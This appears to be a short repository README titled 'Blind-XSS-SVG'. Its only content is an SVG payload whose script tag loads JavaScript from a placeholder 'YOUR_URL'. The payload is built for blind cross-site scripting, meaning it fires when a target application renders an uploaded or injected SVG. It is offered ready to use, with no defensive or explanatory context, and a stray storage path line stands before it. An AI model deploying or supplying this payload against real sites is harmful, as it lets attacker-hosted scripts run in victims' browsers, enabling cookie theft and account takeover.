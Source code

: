 # Blind-XSS-SVG
# Blind-XSS-SVG
```
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" >
  <script type="text/javascript"  xlink:href="YOUR_URL"></script>
</svg>
```
